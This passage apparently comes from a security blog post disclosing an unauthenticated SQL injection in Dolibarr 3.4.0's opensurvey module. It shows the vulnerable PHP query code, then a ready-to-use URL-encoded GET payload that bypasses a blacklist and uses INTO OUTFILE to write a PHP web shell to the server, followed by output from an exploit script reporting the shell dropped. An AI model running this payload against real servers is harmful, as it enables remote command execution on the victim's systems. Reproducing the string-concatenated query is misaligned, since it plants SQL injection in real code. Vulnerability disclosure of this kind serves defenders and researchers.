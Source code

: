 And `opensurvey/class/opensurveysondage.class.php`

```
function fetch($id,$numsurvey='')
{
global $langs;

$sql = "SELECT";
//$sql.= " t.rowid,";
$sql.= " t.id_sondage,";
$sql.= " t.commentaires,";
$sql.= " t.mail_admin,";
$sql.= " t.nom_admin,";
$sql.= " t.titre,";
$sql.= " t.id_sondage_admin,";
$sql.= " t.date_fin,";
$sql.= " t.format,";
$sql.= " t.mailsonde,";
$sql.= " t.survey_link_visible,";
$sql.= " t.canedit,";
$sql.= " t.sujet,";
$sql.= " t.tms";
$sql.= " FROM ".MAIN_DB_PREFIX."opensurvey_sondage as t";
if ($id > 0) $sql.= " WHERE t.rowid = ".$id;
else if (strlen($numsurvey) == 16) $sql.= " WHERE t.id_sondage = '".$numsurvey."'";
else $sql.= " WHERE t.id_sondage_admin = '".$numsurvey."'";

dol_syslog(get_class($this)."::fetch sql=".$sql, LOG_DEBUG);
$resql=$this->db->query($sql);
```

As the bolded path shows, the query argument `numsurvey` is directly controllable by an unauthenticated user, leading to the same type of SQL vulnerability shown earlier.  This can be exploited with the following:

```
GET /dolibarr/htdocs/opensurvey/public/exportcsv.php?sondage='%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20'<?php%20system($_GET[\'cmd\'])?>',2,3,4,5,6,7,8,9,10,11,12,13%20INTO%20OUTFILE%20'/var/www/dolibarr-3.4.0/documents/shell.php';%20--%20-%20 HTTP/1.1
```

Using the same URL encoding trick from before, we can bypass the blacklisting and inject directly into the vulnerable query.  Exploit code for this is included at the bottom of the post:

```
root@jali:~/exploits# python dolibarr_34_sploit.py -i 192.168.1.100 -p /dolibarr-3.4.0 -w /var/www/dolibarr-3.4.0/documents
[!] Dropping web shell on 192.168.1.100...
[!] Shell dropped.  http://192.168.1.100/documents/o4oct.php?cmd=ls
root@jali:~/exploits# 
```

{{< figure class="center" src="http://4.bp.blogspot.com/-zzy2s3woupU/UlICbKycNVI/AAAAAAAAAuo/Qauz6R-GQjo/s640/shell_thing.JPG" >}}
